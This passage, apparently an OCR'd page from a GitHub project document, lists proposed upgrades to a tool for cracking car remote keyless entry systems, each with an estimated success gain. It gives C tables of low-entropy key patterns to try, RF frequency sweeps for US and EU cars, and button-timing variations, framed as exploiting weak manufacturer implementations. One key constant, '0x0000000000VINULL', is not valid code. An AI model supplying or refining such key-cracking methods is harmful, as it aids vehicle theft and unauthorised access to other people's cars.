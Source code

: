 **Impact**: +0.2% (more seed coverage)

---

### **3. Add Weak Key Exploitation** (+0.2%)

**What**: Target keys with low entropy (research findings)

```c
// Keys that manufacturers commonly use incorrectly
const uint64_t WEAK_PATTERNS[] = {
    // Keys with repeating nibbles
    0x1111222233334444ULL,
    0x0000111122223333ULL,
    // Keys based on VIN patterns
    0x0000000000VINULL,  // Replace with actual VIN
    // Date-based weak keys
    0x20240101000000ULL,
};
```

**Impact**: +0.2% (exploits weak implementations)

---

### **4. Add Frequency Optimization** (+0.1%)

**What**: Try different RF frequencies per manufacturer

**Already implemented** via frequency seeds, but optimize:
- Try 315MHz ±50kHz for US cars
- Try 433.92MHz ±100kHz for EU cars
- Auto-detect strongest signal

**Impact**: +0.1% (catches off-frequency remotes)

---

### **5. Add Timing Variation** (+0.1%)

**What**: Vary button press timing

```c
// Try different timing patterns
const TimingSeed TIMING_VARIATIONS[] = {
    {50, 200, 1},   // Super fast
    {75, 300, 1},   // Fast
    {100, 400, 1},  // Normal-fast
    {125, 450, 1},  // Normal
    {150, 500, 1},  // Standard
    {200, 600, 1},  // Slow
    {250, 700, 1},  // Very slow
};
```

**Impact**: +0.1% (timing-sensitive systems)

---